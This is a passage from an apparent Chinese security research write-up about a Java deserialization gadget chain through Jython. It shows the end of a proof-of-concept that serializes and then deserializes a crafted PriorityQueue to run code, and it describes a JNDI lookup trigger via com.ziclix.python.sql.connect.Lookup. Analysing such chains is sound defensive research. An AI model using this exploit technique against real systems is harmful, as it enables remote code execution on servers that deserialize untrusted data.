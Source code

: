 ```plain
        f2.set(priorityQueue, 2);  

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);  
        objectOutputStream.writeObject(priorityQueue);  

        byte[] bytes = byteArrayOutputStream.toByteArray();  
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);  
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);  
        objectInputStream.readObject();  
    }  
}
```

上述执行 python 代码等同于：

[![](assets/1708482702-9f6b1271064dd97df002e36c19564a9c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220141836-e1994b26-cfb7-1.png)

## com.ziclix.python.sql.connect.Lookup

然后再看一下 com.ziclix.python.sql.connect.Lookup jndi 的调用

整个链的触发逻辑一样，只是最终的触发改为了  
`com.ziclix.python.sql.connect.Lookup#__call__`  
把第一个参数取出来解析成 jndiName  
[![](assets/1708482702-d5c03b7f07eceb9981ff5ae717b51d6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220141927-00121ab0-cfb8-1.png)

最终带入 lookup 方法  
[![](assets/1708482702-7686aef6d365a9bab12112d5ec227732.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220141938-068fe656-cfb8-1.png)
